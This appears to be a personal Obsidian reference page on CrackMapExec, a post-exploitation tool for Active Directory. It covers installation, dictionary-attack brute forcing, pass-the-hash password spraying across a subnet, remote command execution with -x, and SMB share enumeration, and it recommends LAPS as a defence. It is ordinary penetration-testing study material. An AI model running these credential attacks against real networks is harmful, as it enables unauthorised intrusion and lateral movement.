 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
A post-exploitation tool for assessing the security of *large Active Directory networks*. CME supports a number of protocols: [[MSSQL]], [[SMB]], [[SSH]], [[WinRM]] etc (can be listed in the help section of the CLI). With this tool we can also brute force user credentials with dictionary attacks. Once we have access we can use a tool like [[Evil-Winrm]] to efficiently communicate with the winrm service.

> A community open-source version is [NetExec](https://github.com/Pennyw0rth/NetExec) which is based on the original CME by its original contributors

## Installation
```
sudo apt-get -y install crackmapexec
```

## Documentation
**Cheatsheet:** 
**Website:** https://web.archive.org/web/20231116172005/https://www.crackmapexec.wiki/
## Usage
```sh
crackmapexec <proto> <target-ip> -u <user or userlist> -p <pass or passlist>
```

### Password Spraying a domain using Pass-the-Hash
We can perform a password spraying attack on a set of targets to see if we are able to login to any host on a subnet. 
```sh
crackmapexec smb [target(s)] -u [user] -d . -H [hash]

# Try credentials against local administrator password on each host
crackmapexec smb 10.129.201.0/24 -u Administrator -d . -H [administrator_hash] --local-auth
```
The `--local-auth` can also be added if we want to attempt to login via local credentials on the host (eg. the local administrator password). 
> If we discover systems all using the same administrator password, we could recommend the use of the [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) which randomises the local admin password and can also rotate it on fixed intervals.

The `-x` flag can be used to execute a command too

### List SMB Shares
```sh
crackmapexec smb [ip] -u [user] -p [pass] --shares
```
